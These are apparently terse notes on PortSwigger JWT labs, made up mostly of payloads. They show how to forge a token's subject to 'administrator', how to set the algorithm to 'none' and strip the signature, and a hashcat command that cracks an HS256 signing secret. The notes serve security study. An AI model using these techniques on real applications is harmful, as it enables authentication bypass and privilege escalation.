 # JWT


### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```



```
hashcat -a 0 -m 16500 eyJraWQiOiIzOWY3NjFjZS0yMjAyLTQ2NTQtYTQ1OS0xY2U4ZGQ2ZDg3N2UiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MDk2NzYzNiwic3ViIjoid2llbmVyIn0.WSkgfT0RVI3UG8tkeGtHwZotjxNXfCl9gIlqFaNjthM ./jwt.secrets.list


```